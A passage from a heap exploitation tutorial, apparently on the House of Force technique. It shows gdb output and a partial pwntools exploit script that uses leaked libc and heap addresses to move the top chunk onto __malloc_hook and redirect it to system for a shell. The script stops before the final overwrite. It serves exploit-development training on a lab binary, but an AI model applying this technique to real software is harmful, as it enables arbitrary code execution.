We can use `__malloc_hook`, a function that is being called before `malloc` - Overriding it with the `system` address could give a shell!

The distance from the top chunk required to is `MALLOC_HOOK_ADDRESS - (HEAP_BASE + 0x20)`. Notice the `0x20` required to account for the already allocated chunk. We can add the following allocation:

```python
distance = libc.sym.__malloc_hook - (heap+0x20)
malloc(distance, b"A")
```

And when running the script with gdb:

```bash
pwndbg> dq &__malloc_hook
00007ffff7dd0c10     0000000000000000 0000000000000000
00007ffff7dd0c20     0000000000000000 ffff8000088323f9
00007ffff7dd0c30     0000000000000000 0000000000000000
00007ffff7dd0c40     0000000000000000 0000000000000000
pwndbg> top_chunk
Top chunk
Addr: 0x7ffff7dd0c20
Size: 0xffff8000088323f9
```

Great! Our `top_chunk` is right at the start of `__malloc_hook`. One more request will enable us to overwrite the hook.

But before we do that, `system` will have to be called with `/bin/sh`. We can insert `bin/sh` right before the hook - as we know the address there. For that to work, we would need to overwrite `0x20` bits before the hook, write `/bin/sh`, and then make one more allocation request for the actual address overriding. Final exploit:

```python
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = elf.libc

io = start()

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send("1")
    io.sendafter("size: ", f"{size}")
    io.sendafter("data: ", data)
    io.recvuntil("> ")

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("> ")

malloc(24, b"A"*24 + p64(0xffffffffffffffff))
distance = libc.sym.__malloc_hook - 0x20 - (heap+0x20)
```